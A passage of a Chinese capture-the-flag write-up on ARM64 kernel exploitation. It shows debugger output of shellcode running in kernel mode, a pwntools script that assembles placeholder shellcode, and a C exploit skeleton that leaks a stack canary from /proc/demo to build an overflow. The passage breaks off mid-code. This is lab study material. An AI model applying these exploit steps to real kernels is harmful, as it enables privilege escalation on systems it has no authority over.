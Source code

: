 然后将断点打在shellcode地址上，即0xffff800000e42388，的确可以成功执行shellcode：

```c
───────────────────────────────[ DISASM ]───────────────────────────
 ► 0xffff800000e42388    and    w24, w19, #0xfffff003
   0xffff800000e4238c    and    w24, w19, #0xfffff003

pwndbg> si
0xffff800000e4238c in ?? ()
───────────────────────────────[ DISASM ]────────────────────────────
   0xffff800000e42388    and    w24, w19, #0xfffff003
 ► 0xffff800000e4238c    and    w24, w19, #0xfffff003
```

所以已经成功的在内核态执行了shellcode，值得注意的是我这里将shellcode放在写入数据的开头，所以注意不要把canary盖了，所以shellcode最长不要超过128字节，这个长度对于本题来说够了，当然也可以把shellcode放后面，毕竟允许写入0x1000大小字节的数据。另外还发现set_memory_x的参数地址没有按页对齐也可以成功，在用户态libc中的mprotect参数在其中存在对齐检查，不对齐的地址会报错。

### shellcode

#### 调试写法

在c里写arm64的内联汇编我不太熟练，为了方便调试，所以直接用pwntools然后导出shellcode到文件中：

```python
from pwn import *
context(arch='aarch64')

shellcode = asm('''
    mov x0, 1
    mov x0, 1
    mov x0, 1
    mov x0, 1
    mov x0, 1
''')

assert(len(shellcode)<128)

open('sc.bin','wb').write(shellcode)
```

然后在c代码中读取shellcode并初始化exp数组：

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(){
    char buf[0x100];
    char exp[0x200];

    int f = open("/proc/demo",O_RDWR);
    
    // read shellcode
    int sc = open("./sc.bin",O_RDWR);
    read(sc,exp,128);

    // leak canary
    read(f,buf,0x100);
    long long canary =  *(long long *)(buf+128);
    *(long long *)(exp+128) = canary;
    
    /*
    panic:
    [    6.324054] x11: 00000000000001f8 x10: 00000000000001f0 x9 : 00000000000001e8
```
